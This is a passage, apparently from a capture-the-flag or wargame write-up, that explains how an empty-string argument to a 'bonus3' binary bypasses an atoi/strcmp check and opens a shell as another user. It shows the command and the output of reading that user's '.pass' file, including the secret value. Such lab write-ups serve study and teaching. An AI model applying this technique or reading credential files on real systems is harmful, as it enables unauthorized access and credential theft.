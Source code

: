 If we pass an empty string as an argument, `atoi` will return `0`, then it will set `buf[0] = 0`, compares the empty string with `buf` which, for `strcmp`, is equal to an empty string as it starts with 0, and exec the shell with permissions for the `end` user !
```shell
bash$ ./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

